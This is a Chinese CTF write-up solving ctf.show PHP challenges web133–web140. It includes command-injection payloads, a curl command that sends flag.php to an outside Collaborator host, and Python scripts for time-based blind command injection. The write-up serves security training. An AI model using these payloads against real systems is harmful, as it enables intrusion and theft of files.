### web133

开启容器

代码审计



- `substr($F,0,6)`会截取`$F`的前 6 个字符。

6 个字符太少了

可以直接传入`$F`

```
?F=`$F `;
```

用 sleep 测试

```
/?F=`$F `;sleep 2
```

确实刷新等待了一会，验证得到命令执行

接下来就是防止被`preg_match`过滤

这里使用 burpsuite 的 Collaborator Client 结合  curl -F 命令外带 flag：

随机获取一个域名
`5djwt01qp1saqhwosujdblpjcai16rug.oastify.com`



构造 payload：

```php
?F=`$F`;+curl -X POST -F xx=@flag.php  http://5djwt01qp1saqhwosujdblpjcai16rug.oastify.com
```

对 payload 的一些解释：

-F 为带文件的形式发送 post 请求；

其中 xx 是上传文件的 name 值，我们可以自定义的，而 flag.php 就是上传的文件 ；

**相当于让服务器向 Collaborator 客户端发送 post 请求，内容是 flag.php**





得到 flag


### web134

开启容器

代码审计



```
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
	die("nonononono");
}
```

如果通过 GET 或 POST 请求中设置了 key1 或 key2，脚本将停止执行并输出 "nonononono"。

payload：

```php
?_POST[key1]=36d&_POST[key2]=36d
```

由于 extract($\_POST)，这两个 POST 参数会被提取为局部变量 $key1 和 $key2；



### web135

开启容器

代码审计



新增了更多的命令过滤，但是这道题的当前目录可写

payload：

```php
?F=`$F`; nl f*>1.txt
```

写入 1.txt


得到 flag


当然还可以用 cp、mv 命令：

```php
?F=`$F`; cp flag.php 2.txt
```

```php
?F=`$F`; mv flag.php 3.txt
```

### web136

开启容器

代码审计



> exec()

用于执行外部程序；  
**不会输出结果到标准输出**，而是将最后一行结果作为返回值返回；  
如果传入第二个参数（数组），可以将所有输出保存到这个数组中；  
第三个参数是一个整数变量，用于捕获命令执行后的返回状态码。

先想到的是dnslog外带和反弹shell，但基本都被禁止了

这里的 check 函数基本没啥用，不会阻止命令执行

但是实测直接重定向无法成功

我们可以使用 tee 命令来实现类似的功能，tee 命令可以将命令的输出写入到标准输出的同时写入到一个文件中，payload：

```php
?c=ls /|tee f
```

访问 f 下载得到







得到 flag

### web137

开启容器

代码审计



`call_user_func`函数类似于一种特别的调用函数的方法
call_user_func()函数的使用  [https://www.php.net/manual/zh/function.call-user-func.php](https://www.php.net/manual/zh/function.call-user-func.php)

payload
post

```
ctfshow=ctfshow::getFlag
```



### web138

开启容器

代码审计



限制了冒号,但是还是可以通过数组传递
`ctfshow[0]=ctfshow&ctfshow[1]=getFlag`



### web139

开启容器

代码审计



利用 web136 的方法不行，没有写入权限了。  
`?c=ls;sleep 3`确实等待了一会，可以执行，没有回显，命令盲注。  
这个命令盲注就比较麻烦，因为限制了一些特殊字符，所以盲注的 payload 也需要注意

脚本

- 列出根目录

```python
import requests
import time
import string

str = string.ascii_letters + string.digits + '_~'
result = ""

for i in range(1, 10):  # 行
    key = 0
    for j in range(1, 15):  # 列
        if key == 1:
            break
        for n in str:
            # awk 'NR=={0}'逐行输出获取
            # cut -c {1} 截取单个字符
            payload = "if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i, j, n)
            # print(payload)
            url = "http://c8468ac0-ca4d-4d95-82dc-c7c26edc6124.challenge.ctf.show/?c=" + payload
            try:
                requests.get(url, timeout=(2.5, 2.5))
            except:
                result = result + n
                print(result)
                break
            if n == '~':
                key = 1
                result += " "

print("Final result:", result)
```



- 读取 flag

```python
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
    print(j)
    if key==1:
        break
    for n in str:
        payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
        #print(payload)
        url="http://b76bf2c7-70e7-401f-a490-f5963e74b581.challenge.ctf.show/?c="+payload
        try:
            requests.get(url,timeout=(2.5,2.5))
        except:
            result=result+n
            print(result)
            break

```



注意加上` {``} `

### web140

开启容器

代码审计



正则表达式要求 f1 和 f2 只能是数字和小写字母，`$f2()` 被视为一个函数调用，`$f1` 作为函数名调用 `$f2()` 的返回值，最后进行弱比较，由于 'ctfshow' 转换为整数是 0，因此条件实际上是检查 intval($code) 是否为 0。

那么 $code 就有很多的情况：

（1）字母开头的字符串

字符串形式的字母或数字（如 "a", "b123", 等），在 PHP 中，任何以字母开头的字符串在转换为整数时通常会被视为 0。

（2）空字符串 "" 和 "0"：在转换为整数时也是 0。

（3）空数组：空数组  array() 在转换为整数时会被视为 0。

（4）整数 0：直接返回整数 0。

（5）布尔值 false：布尔值 false 在转换为整数时会被视为 0。

payload：

```
f1=system&f2=system # 布尔值 false
f1=md5&f2=phpinfo # 字母开头的字符串
f1=usleep&f2=usleep # usleep() 没有返回值，调用 usleep() 将导致 eval() 返回 null。当 null 传递给 intval() 时，返回值是 0。
```


